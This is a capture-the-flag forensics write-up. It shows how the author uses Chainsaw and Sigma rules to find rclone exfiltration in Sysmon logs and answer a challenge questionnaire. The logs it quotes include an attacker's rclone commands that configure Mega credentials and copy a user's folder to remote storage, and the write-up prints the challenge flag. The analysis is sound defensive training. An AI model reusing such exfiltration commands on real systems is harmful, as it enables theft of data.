

# [Cyber Apocalypse 2023](index.md) - Forensics - Packet Cyclone

> Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

Interesting - we don't need to find a hidden flag with this one, we need to answer the questions asked of us by the remote server _about_ the data we find from the logs.

We're provided with a zip file containing some Windows event logs and some "Sigma" rules. The challenge also wants us to use Chainsaw, so we'll need to find and install that.

Chainsaw can be found on it's GitHub page: https://github.com/WithSecureLabs/chainsaw - there is a precompiled Windows exe in the "Releases" section of the repo. I've simply copied and pasted the contents of their latest release into the same directory as the challenge files - this should be `chainsaw.exe` and a folder named `mappings` with some `.yml` files inside.

Running Chainsaw, we get some help text. Based on that help text alone, I ran the following command:

```cmd
> .\chainsaw.exe hunt .\Logs\ -s .\sigma_rules\ -m .\mappings\sigma-event-logs-all.yml
```

And got some results that would unfortunately not get formatted correctly on a page like this - a nice table with two "detections" - it's identified some potentially malicious commands that were run on the computer.



Good to know, I bet I'll be getting more familliar with this tool before this challenge is complete.

Lets check out the spawnable docker container to see what kinds of questions it will be asking.

```
$ nc 144.126.196.198 31685

+----------------+-------------------------------------------------------------------------------+
|     Title      |                                  Description                                  |
+----------------+-------------------------------------------------------------------------------+
| Packet Cyclone |           Pandora's friend and partner, Wade, is the one that leads           |
|                |                  the investigation into the relic's location.                 |
|                |         Recently, he noticed some weird traffic coming from his host.         |
|                |             That led him to believe that his host was compromised.            |
|                | After a quick investigation, his fear was confirmed. Pandora tries now to see |
|                |  if the attacker caused the suspicious traffic during the exfiltration phase. |
|                |             Pandora believes that the malicious actor used rclone             |
|                |                  to exfiltrate Wade's research to the cloud.                  |
|                |     Using the tool chainsaw and many sigma rules that can be found online,    |
|                |   can you detect the usage of rclone from the event logs produced by Sysmon?  |
|                |                 To get the flag, you need to start and connect                |
|                |         to the docker service and answer all the questions correctly.         |
+----------------+-------------------------------------------------------------------------------+

What is the email of the attacker used for the exfiltration process? (for example: name@email.com)
>
```
OK, so it'll be a questionnaire, like the "questionnaire" challenge. neat.

It took the time to look through the various help menus in the program, and to watch this youtube video on Chainsaw: https://www.youtube.com/watch?v=YN_kffuC6a8, by 13Cubed.

Because of the nature of Windows event logs, chainsaw's output is going to be very verbose, and unfriendly to including in this document, so I'll be shortening most of the snippets included here to only the relevant parts.

```
What is the email of the attacker used for the exfiltration process? (for example: name@email.com)
>
```

We can use chainsaw to search through the logs for anything resembling an email address, by using regular expressions.
I _do_ know how to write regular expressions, but to save time I just searched for one - google told me that this should work (this answer came from [regexlib.com](https://www.regexlib.com/Search.aspx?k=email):

```
^([a-zA-Z0-9_\-\.]+)@([a-zA-Z0-9_\-\.]+)\.([a-zA-Z]{2,5})$
```
The `^` and `$` characters at the start and end of that signify the start and end of a string - we want to find email addresses _within_ other blobs of text, so we'll want to remove those. The chainsaw command I ran was:

```
.\chainsaw.exe search -e "([a-zA-Z0-9_\-\.]+)@([a-zA-Z0-9_\-\.]+)\.([a-zA-Z]{2,5})" .\Logs\
```
And it found us a log file - exactly one, to be precise
```
Event:
  EventData:
    CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI'
    Company: https://rclone.org
    CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
    Description: Rsync for cloud storage
    FileVersion: 1.61.1
    Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
    Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
    IntegrityLevel: Medium
    LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
    LogonId: '0x36d4b'
    OriginalFileName: rclone.exe
    ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" '
    ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
    ParentProcessId: 5888
    ParentUser: DESKTOP-UTDHED2\wade
    ProcessGuid: 10DA3E43-D92B-63F8-B100-000000000900
    ProcessId: 3820
    Product: Rclone
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-UTDHED2\wade
    UtcTime: 2023-02-24 15:35:07.336
```

Looks like the answer that we're looking for is `majmeret@protonmail.com`.

```
What is the email of the attacker used for the exfiltration process? (for example: name@email.com)
> majmeret@protonmail.com
[+] Correct!

What is the password of the attacker used for the exfiltration process? (for example: password123)
>
```
I believe this is also in the exact same command as the previous question - right next to the email we see that the command included a password - `FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI`.

```
What is the password of the attacker used for the exfiltration process? (for example: password123)
> FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI
[+] Correct!

What is the Cloud storage provider used by the attacker? (for example: cloud)
>
```

The cloud storage is also found in this same command - `mega`.

```
What is the Cloud storage provider used by the attacker? (for example: cloud)
> mega
[+] Correct!

What is the ID of the process used by the attackers to configure their tool? (for example: 1337)
>
```

The above log says the `ProcessId` is `3820`.

```
What is the ID of the process used by the attackers to configure their tool? (for example: 1337)
> 3820
[+] Correct!

What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)
>
```
Now we're going to need to search for more logs, as the above log was merely the initial setup of the `rclone.exe` program, not when it was actually ran.

```
> .\chainsaw.exe search "rclone" .\Logs\
```
This gives us quite a few more logs to look through. Among them, this one:

```
Event:
  EventData:
    CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
    Company: https://rclone.org
    CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
    Description: Rsync for cloud storage
    FileVersion: 1.61.1
    Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
    Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
    IntegrityLevel: Medium
    LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
    LogonId: '0x36d4b'
    OriginalFileName: rclone.exe
    ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" '
    ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
    ParentProcessId: 5888
    ParentUser: DESKTOP-UTDHED2\wade
    ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
    ProcessId: 5116
    Product: Rclone
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-UTDHED2\wade
    UtcTime: 2023-02-24 15:35:17.516
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-UTDHED2
    Correlation: null
    EventID: 1
    EventRecordID: 78
    Execution_attributes:
      ProcessID: 4288
      ThreadID: 5172
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-02-24T15:35:17.525069Z
    Version: 5
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event
```

Looks like `rclone.exe` was used to copy `C:\Users\Wade\Desktop\Relic_location\` somewhere. This is the answer they want - though they don't want the trailing slash so we have to leave that out.

```
What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)
> C:\Users\Wade\Desktop\Relic_location\
[-] Wrong Answer.
What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)

> C:\Users\Wade\Desktop\Relic_location
[+] Correct!

What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)
>
```
Looks like the answer is `exfiltration`, based on the above log.

```
What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)
> exfiltration
[+] Correct!

[+] Here is the flag: HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}
```
And looks like we're done, and we have the flag.

```
HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}
```

Neat. I will definitely use Chainsaw in the future, it definitely made easy work of these logs.